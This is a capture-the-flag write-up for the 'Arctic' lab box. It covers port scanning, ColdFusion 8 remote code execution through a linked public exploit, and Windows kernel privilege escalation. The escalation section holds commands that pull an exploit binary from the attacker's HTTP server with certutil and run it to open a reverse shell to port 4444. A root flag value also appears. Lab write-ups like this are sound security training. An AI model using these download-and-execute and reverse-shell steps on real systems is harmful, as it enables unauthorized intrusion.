



### Larry Liu's Box Writeup | Arctic

## Enumeration

To begin, I ran the following commands to find the open ports and then detailed information about them (its IP was **10.10.10.11**):

```bash
nmap -Pn -n -vv --open -T4 10.10.10.11
nmap -Pn -n -p 135,8500,49154 -vv --open -sV -sC -T4 10.10.10.11
```

Seeing that port 8500 was a FTMP port, which stands for Flight Message Transfer Protocol, I tried to connect to it, bringing me to this index page:



Quick searches on what CFIDE and cfdocs stood for told me that the website was running Adobe Coldfusion. By digging through the cfdocs, I found that it was running Colfusion 8.
Searching online for an Adobe Colfusion 8 RCE gave me this exploit: https://www.exploit-db.com/exploits/50057

Running the exploit gave me a remote shell into the box, and I promptly retrieved the user flag.


To get the root flag, I ran system info and found that the machine was running *Microsoft Windows Server 2008 R2 Standard V. 6.1.7600,* equivalent to on-release Windows 7. Looking online for exploits brought me to this exploit: https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri. All I had to do was get the exploit on their machine.

To do so, I utilized a local server to send the file over to the box.

```bash
# on my machine in a directory with the payload
python3 -m http.server <42068>

# on the box
certutil -urlcache -f "http://10.10.14.17:42068/Chimichurri.exe" Chimichurri.exe

# running the exploit

Chimichurri.exe 10.10.14.17 4444

```
I was able to obtain a reverse shell from this exploit, and from there, I navigated to the root flag, 82070982e2673deff31aa84282303a18, and pwned the box!




